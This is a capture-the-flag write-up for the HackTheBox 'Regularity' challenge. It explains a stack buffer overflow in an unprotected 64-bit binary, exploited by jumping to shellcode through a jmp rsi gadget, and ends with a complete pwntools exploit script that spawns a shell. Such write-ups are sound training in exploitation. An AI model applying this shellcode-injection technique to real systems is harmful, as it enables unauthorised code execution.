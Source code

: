 # Regularity
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d20d1e54-c9f0-4e60-8820-70dea1f1090c)


## Lessons Learned:
- Get shell using ret2reg concept --> jumping to rsi.

## DESCRIPTION:

<p align="justify">Nothing much changes from day to day. Famine, conflict, hatred - it's all part and parcel of the lives we live now. We've grown used to the animosity that we experience every day, and that's why it's so nice to have a useful program that asks how I'm doing. It's not the most talkative, though, but it's the highest level of tech most of us will ever see...</p>

## STEPS:
1. In this challenge, we're given a 64 bit binary, statically linked, and not stripped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9b195474-0e37-4725-bf60-798139df026b)


> BINARY PROTECTIONS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bf714acb-c3d3-48f2-a180-944cd07db6a3)


2. Interesting, no protections are applied to the binary.
3. Upon reviewing the decompiled code, we found an initialize global variable named message1. Since it's initialized, the variable shall stored at the .DATA section.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b297ed28-a23f-4f83-8ec9-755a2f5258a9)


> .DATA SECTION.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1d9b319f-d05c-474d-a018-4f45f0af3e2d)


4. It's unclear to determine the size of **nbytes** and **__buf**. So let's just send 1024 cyclic pattern and check whether GDB alarm SIGSEGV or not.

> RESULTING TO SEGFAULT (SIGSEGV).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c03fb309-1919-4f42-9789-ffaa36f88ee2)


> RIP Offset -> 256

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d60021ed-fedf-490f-bb58-beaa8c376586)


5. Great! There is a Buffer Overflow then. Since there is no direct input execution and no stack leak. Hence, the easiest way to drop a shell is by using register that used to store the input buffer.
6. Commonly **RAX** is used to store the input buffer.
7. BUT, reviewing the register context, seems RSI is used to store our buffer.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c20349b2-5e29-4349-a0c3-527b5becc6ed)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bffb1ec5-0149-4a75-a4d0-a607eb298d19)


8. Nice! Seems RSI should be our target now. Again, remembering PIE is not enabled hence we can grab the `jmp rsi;` gadget without worries about the piebase.

> USING ROPPER - CHECKING JMP RSI; GADGET.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ad3e4531-fb43-4600-8f0f-2f9ab5ef37c6)


10. Here's the crafted exploit script.

> SCRIPT

```py
from pwn import *

exe = './regularity'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'INFO'

sh = process(exe)
rop = ROP(elf)

jmp_rsi = 0x0000000000401041
success(f'JMP RSI; GADGET --> {hex(jmp_rsi)}')

p = flat([
    asm(shellcraft.sh()).ljust(256, asm('nop')),
    jmp_rsi
])
sh.sendline(p)
sh.interactive()
```

> REMOTE TEST

